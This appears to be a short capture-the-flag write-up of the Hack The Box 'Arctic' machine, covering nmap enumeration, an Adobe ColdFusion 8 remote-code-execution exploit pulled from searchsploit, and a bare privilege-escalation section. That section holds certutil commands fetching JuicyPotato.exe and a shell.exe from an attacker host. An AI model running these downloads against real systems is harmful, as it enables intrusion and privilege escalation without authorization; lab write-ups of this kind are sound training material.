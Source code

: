 # ARCTIC

Date: 2024-12-12
Target: `10.10.10.11`

Save in a target file:

```bash
echo 10.10.10.11 > target
```

Added also in the hosts file as `artic.htb`.

## Gain Access

### Port Scan Enumeration

I run a full tcp ports scan:

```bash
nmap -p- -v -iL=target -oN nmap/tcp_ports.txt
```

I discovered the following open ports:

* `135`
* `8500`
* `49154`

Performing an aggressive ports scan:

```bash
nmap -p135,8500,49154 -v -iL target -A -oN nmap/target_ports.txt -oX nmap/target_ports.txt

```

I haven't get any more information.
I tried to enumerate them with `telnet` and `nc`, but they did't give me any information.
On the browser I got a web page: `http://artic.htb:8500/`.

### HTTP - Port 8500

I found an administrator login page at: `http://artic.htb:8500/CFIDE/administrator/` and its an **Adobe Coldfusion 8**.
I search for a possibile vulnerability over the internet and I found it, then I used `searchsploit` and I found the same:

```bash
searchsploit Adobe Coldfusion 8
searchsploit -m 50057
```

![image](https://github.com/user-attachments/assets/1fe12b8e-0136-423b-925b-93fe40f8aebd)

I changed some configuration inside the file and I got the shell:

![image](https://github.com/user-attachments/assets/0ad09701-8968-4c4c-9f45-80530f2a3e6b)

## Privile Escalation



```
certutil -UrlCache -f http://10.10.16.9:8081/JuicyPotato.exe jp.exe

certutil -UrlCache -f http://10.10.16.9:8081/shell.exe s.exe
```


***

## Resources

* [Adobe ColdFusion 8 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50057)

***
